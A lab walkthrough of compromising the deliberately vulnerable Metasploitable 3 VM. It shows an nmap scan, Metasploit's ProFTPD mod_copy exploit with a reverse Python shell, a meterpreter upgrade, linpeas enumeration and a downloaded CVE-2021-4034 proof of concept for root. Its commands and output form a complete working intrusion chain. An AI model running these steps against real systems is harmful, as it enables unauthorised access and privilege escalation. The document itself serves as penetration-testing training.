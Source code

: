 # Metasploitable 3 Walkthrough
> Quasar | 2022

## Initial analysis:
Nmap scan: ``% nmap -T4 -Pn -oN nmap_ports.txt -sV 192.168.244.133`` where ``192.168.244.133`` is the IP address of the Virtual Machine
Results:
```
PORT     STATE  SERVICE     VERSION
21/tcp   open   ftp         ProFTPD 1.3.5
22/tcp   open   ssh         OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http        Apache httpd 2.4.7 ((Ubuntu))
445/tcp  open   netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
631/tcp  open   ipp         CUPS 1.7
3000/tcp closed ppp
3306/tcp open   mysql       MySQL (unauthorized)
8080/tcp open   http        Jetty 8.1.7.v20120910
8181/tcp closed intermapper
Service Info: Host: UBUNTU; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Exploitation
Let's try the first hit on metasploit:

``% msfconsole ``

```
msf6 > search proftpd
Matching Modules
================
   #  Name                                         Disclosure Date  Rank       Check  Description
   -  ----                                         ---------------  ----       -----  -----------
   0  exploit/linux/misc/netsupport_manager_agent  2011-01-08       average    No     NetSupport Manager Agent Remote Buffer Overflow
   1  exploit/linux/ftp/proftp_sreplace            2006-11-26       great      Yes    ProFTPD 1.2 - 1.3.0 sreplace Buffer Overflow (Linux)
   2  exploit/freebsd/ftp/proftp_telnet_iac        2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (FreeBSD)
   3  exploit/linux/ftp/proftp_telnet_iac          2010-11-01       great      Yes    ProFTPD 1.3.2rc3 - 1.3.3b Telnet IAC Buffer Overflow (Linux)
   4  exploit/unix/ftp/proftpd_modcopy_exec        2015-04-22       excellent  Yes    ProFTPD 1.3.5 Mod_Copy Command Execution
   5  exploit/unix/ftp/proftpd_133c_backdoor       2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution
```

The 4th one seems promising as the version number (1.3.5) matches with the machine.

```
msf6 > use 4
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > show options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www         yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5
```

Now, the variables ``RHOSTS`` and the ``SITEPATH`` need to be corrected.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.244.133
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
```

Also, we need to set a payload for this exploit. This module only supports cmd/unix/* payloads.
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload cmd/unix/
set payload cmd/unix/bind_awk            set payload cmd/unix/generic             set payload cmd/unix/reverse_perl_ssl
set payload cmd/unix/bind_perl           set payload cmd/unix/reverse_awk         set payload cmd/unix/reverse_python
set payload cmd/unix/bind_perl_ipv6      set payload cmd/unix/reverse_perl        set payload cmd/unix/reverse_python_ssl
```
Now:

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set PAYLOAD cmd/unix/reverse_python
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST vmnet8
```
``vmnet8`` is my NAT interface (and for) which the listener will be listening on.

```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > run

[*] Started reverse TCP handler on 192.168.244.1:4444 
[*] 192.168.244.133:80 - 192.168.244.133:21 - Connected to FTP server
[*] 192.168.244.133:80 - 192.168.244.133:21 - Sending copy commands to FTP server
[*] 192.168.244.133:80 - Executing PHP payload /UeJyDI.php
[*] Command shell session 1 opened (192.168.244.1:4444 -> 192.168.244.133:35430) at 2022-07-30 23:15:27 +0530

```

Success, we now have a shell to work with!

## Postexploitation
```
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > sessions -i 1
[*] Starting interaction with 1...

bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html$ 
```

Now, let's try for a meterpreter:

```
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the connection
   LHOST    192.168.244.1    no        IP of host that will receive the connection from the payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION  1                yes       The session to run this module on
```
This is the output after correcting the "blank spots/incorrect variables". Now, running it gives:

```
msf6 post(multi/manage/shell_to_meterpreter) > run
[*] Post module running as background job 0.
[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.244.1:4433 
[*] Sending stage (989032 bytes) to 192.168.244.133
[*] Meterpreter session 2 opened (192.168.244.1:4433 -> 192.168.244.133:49703) at 2022-07-30 23:36:49 +0530
[*] Command stager progress: 100.00% (773/773 bytes)

meterpreter > 
```

Cool!
Now, let's try to get root access on this machine.

We scan for any vulnerabilities using linpeas: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Just download it from the web in the machine or upload it using the meterpreter.

```
meterpreter > upload CTF/Metasploitable3/uploads/linpeas.sh
[*] uploading  : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] Uploaded -1.00 B of 758.81 KiB (0.0%): /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
[*] uploaded   : /home/quasar/CTF/Metasploitable3/uploads/linpeas.sh -> linpeas.sh
```

Now, running it inside the machine gives a lot of information about the it.

```
meterpreter > shell
cd /dev/shm
bash -i
www-data@ubuntu:/run/shm$ chmod +x linpeas.sh
www-data@ubuntu:/run/shm$ ./linpeas.sh
```

Immediately, linpeas pops up with a CVE number:

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034
```

Now, searching for the PoC's for the CVE in internet gave: https://github.com/arthepsy/CVE-2021-4034 (credits intended)
And we have git in the machine.

So,
```
www-data@ubuntu:/run/shm$ git clone https://github.com/arthepsy/CVE-2021-4034
Cloning into 'CVE-2021-4034'...
www-data@ubuntu:/run/shm$ ls
CVE-2021-4034
linpeas.sh
www-data@ubuntu:/run/shm$ cd CVE-2021-4034
www-data@ubuntu:/run/shm/CVE-2021-4034$ ls
README.md
cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ cc cve-2021-4034-poc.c
www-data@ubuntu:/run/shm/CVE-2021-4034$ ./a.out
bash -i
bash: cannot set terminal process group (1794): Inappropriate ioctl for device
bash: no job control in this shell
root@ubuntu:/run/shm/CVE-2021-4034# whoami
root
```

And we got root access for the machine.
